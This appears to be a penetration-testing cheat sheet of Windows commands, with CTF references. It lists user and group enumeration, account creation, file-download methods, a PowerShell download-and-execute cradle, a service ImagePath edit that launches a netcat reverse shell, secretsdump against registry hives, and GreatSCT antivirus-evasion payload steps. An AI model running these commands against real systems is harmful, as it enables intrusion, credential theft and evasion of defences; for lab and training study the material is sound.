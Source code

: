 # Commands
## User related
```powershell
# User info
whoami /all

# User info
net user

# Show groups
net group

# Show local groups
net localgroup <groupname>

# Add user to group
net group <groupname> /add <username>

# Create account
net user <username> <password> /add

# Create account (AD)
# This will force the command to execute on the domain controller instead of the local computer
net user <username> <password> /add /domain
```

## Basic
### System
```powershell
# Shows info about system (Look whether HotFixes are applied or not)
systeminfo

# Show drives
Get-PSDrive -PSProvider FileSystem

# Show hidden data streams
dir /R

# List Defender Exclusions (Requires local admin privileges)
Get-MpPreference | select Exclusion*

# PowerShell Logging Status
[Bool](Get-ItemProperty 'HKLM:\SOFTWARE\Wow6432Node\Policies\Microsoft\Windows\PowerShell\Transcription' -ErrorAction SilentlyContinue).EnableTranscripting
[Bool](Get-ItemProperty 'HKLM:\SOFTWARE\Wow6432Node\Policies\Microsoft\Windows\PowerShell\ModuleLogging' -ErrorAction SilentlyContinue).EnableModuleLogging
[Bool](Get-ItemProperty 'HKLM:\SOFTWARE\Wow6432Node\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging' -ErrorAction SilentlyContinue).EnableScriptBlockLogging

# Download and execute files
iex(new-object net.webclient).downloadstring('remote_file')
```
### Download files
```powershell
# Method 1
(new-object net.webclient).downloadfile(<remote_file>,<output_file>)

# Method 2
Invoke-WebRequest -Uri <source> -OutFile <output_file>

# Method 3
Import-Module BitsTransfer
Start-BitsTransfer -Source <url> -Destination <output_file>

# Method 4
certutil -urlcache -f <url> output_file<>
```

## Services
```bat
:: Get info
sc query <service>
reg query HKLM\System\CurrentControlSet\Services\<service>

:: Edit info
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\<service>" /t <type> /v <value> /d <data> /f

:: Edit ImagePath and execute netcat command (assuming nc was uploaded before)
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\<service>" /t <type> /v ImagePath /d "nc.exe <ip> <port> -e powershell.exe" /f
```



# Directories
```bash
# Powershell history log file
C:\Users\username\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# See any suspicious apps 
"C:\Program Files" or "C:\Program Files (x86)"

# Apps on old windows versions
C:\Data\Users\app

# Code policies and passwords in files
C:\Program Files\windowspowershell\modules\packagemanagement

# Config files
C:\Windows\System32\config

# AD database file location
C:\Windows\NTDS
```

## Configuration files
Most config files can be found in `C:\Windows\System32\config`     

### Get info from registry hive
```bash
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

## Mount windows shares and VHD files
The Common Internet File System (CIFS) is a network file-sharing protocol. CIFS is a form of SMB.    
```bash
mount -t cifs //<ip>/<share> <mount_dir> -o user=<username>,password=<password>
```

### Mount VHD files
One can use `guestmount` to mount a guest filesystem on the host.     
Install with: `apt install libguestfs-tools`

```bash
guestmount --add <vhd_file> --inspector --ro <mount_dir>
```

#### References
- [https://linux.die.net/man/1/guestmount](https://linux.die.net/man/1/guestmount)



# accesschk
AccessChk is a command-line tool for viewing the effective permissions on files, registry keys, services, processes, kernel objects, and more. This tool will be helpful to identify whether the current user can modify files within a certain service directory.      

```bat
:: Accept eula
accesschk.exe /accepteula

:: Access to services
accesschk.exe <user> -kwsu HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services

:: Services access
accesschk.exe -uwcqv Users *
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "Everyone" *

:: Weak folder permission per drive
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwdqs "Everyone" c:\

```    
- [Github](https://github.com/ankh2054/windows-pentest).**  


## Example usage in CTF situations
- [https://snowscan.io/htb-writeup-control/#](https://snowscan.io/htb-writeup-control/#)
- [https://steflan-security.com/windows-privilege-escalation-weak-permission/](https://steflan-security.com/windows-privilege-escalation-weak-permission/)



# AV evasion
## GreatSCT
```sh
# Download
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```
Inside GreatSCT.py
```sh
use 1
list
use 9
set lhost <ip>
sel lport <port>
generate
```
Now start the listener with `msfconsole -r file.rc` and execute the xml payload with:
```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```

## References
- [https://book.hacktricks.xyz/windows-hardening/av-bypass#greatsct](https://book.hacktricks.xyz/windows-hardening/av-bypass#greatsct)
- [https://github.com/GreatSCT/GreatSCT.git](https://github.com/GreatSCT/GreatSCT.git)



# Office files
Modern `Office` documents are just zip archives with XML files so, just unzip it and look for data within the XML files.
```bash
unzip <file>
```

## oletools
```bash
# Download tools
sudo pip3 install -U oletools

# Extract macros
olevba -c <file>
```